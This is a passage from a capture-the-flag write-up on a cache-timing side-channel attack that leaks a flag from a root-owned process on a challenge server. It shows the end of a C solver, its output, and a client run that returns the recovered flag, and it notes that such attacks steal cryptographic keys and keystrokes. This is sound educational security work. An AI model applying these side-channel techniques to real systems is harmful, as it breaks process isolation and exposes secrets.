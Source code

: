 ```
	valids[j]='\0';
	
	printf("valid chars: %s\n",valids);
	
	srand(time(NULL));
	randomize(valids);
	
	watchOrder(base,valids,flag);
	printf("flag here: %s\n",flag);

	return 0;

}



```

```
./solve 
valid chars: -ABCDEFRT_{}
flag here: DFEDACEDREDAC}CTF-BR{RDACTE_REDACTED_REDACED_REDAC}CTF-BR{REDACTED_DATED_REDACTED_REDAC}TF-B{REDACED_REACTED_EDACTED_EDAC}CTFBR{REDACTED_RDACTED_REDACED_EDA}CF-BR{REACTED_REDACTD_RDACTEDRDAC}CFBR{RDACTED_REDACED_REACTEEDACCTF-BR{EDACEDRDATED_REDACE_REDAC}CTF-R{REDATD_REDACTED_REACTD_REDAC}TFBREDACTED_RACTED_REDACTED_REDA}CBR{REDACTED_REDACTED_REACTED_DAC}CTF-B{REDAED_REDACTD_EDACTED_REDAC}C{EADCE_

```

After writing a client that will send the exploit to the server:

```
./client.py 
Hello there.
ps -aux | grep encoder
root         8  3.1  0.0   2356   732 ?        S    23:06   0:01 /home/manager/encoder
Give me how many bytes (max: 100000)
Send 'em!
Position in queue: 1
Here are the first 10000 bytes of your output:
avg cached=0x2e
avg evicted=0x126
using threshold 0xaa
valid chars: -0134BCFLRTW_bcdeilnrsw{}
flag here: LnFCTF-{Tr4sc3dence_R3bell1_wiL_CTF-B{r43ndenceR3bell10n_wiL_W1n}CTF-BR{T4nsc3dn_ell10n_wiLlW_1n}CF-BRr4ns3ndence_R3bel10n_wiLl_W1n}CTF-BR{Trnsc3ndence_R3ell0_wilW1n}CTF-R{r4nscndene_R3bell01nwiLl_CTF-BR{Tr4ns3ndence_R3bell10n_wiL_W1n}CTF-BR{Tr4nc3ndence_R3bell10n_wiLl_W1n}CTF-BR{Tr4nsc3ndeneR3bel1nl_wLilW1n}CTF-BR{Tr4nsc3ndenceR3bell10_wiLl_n}CTF-1n_l0n_wiL_W1n}CTF-R{Tr4nsc3ndence_R3bell10n_wiLl_
```

Besides some scrumbled chars, it's possible to obtain a valid flag ```CTF-BR{Tr4nc3ndence_R3bell10n_wiLl_W1n}```. If not possible, just take the valid parts of each try and join them together.
This vulnerability have been used for years to stole cryptographic keys or measuring key strokes. It's just one of many ways that microarchitecture attacks uses to break process isolation. 
There are other ways to achieve the leak using other side channel attacks such as flush+flush or evict+probe.
